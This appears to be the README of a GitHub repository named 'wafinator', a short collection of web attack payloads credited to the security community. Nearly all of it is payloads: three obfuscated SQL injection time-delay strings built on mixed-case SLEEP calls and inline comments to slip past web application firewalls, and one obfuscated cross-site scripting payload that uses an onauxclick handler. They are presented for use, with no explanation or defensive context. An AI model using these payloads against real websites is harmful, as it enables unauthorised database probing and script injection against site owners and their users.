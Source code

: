 # wafinator
Collection of payloads from everywhere. The maintainer is glad to *sec community for sharing their paylaods.


\-SleEp(0x2);\-\-<br><br>
\-slEEp("5A");\-\-<br><br>
\-SleEP/\*(\*/(5);\-\-<br><br>
J<d3v/onauxclick=[2].some(confirm)>O<br><br>


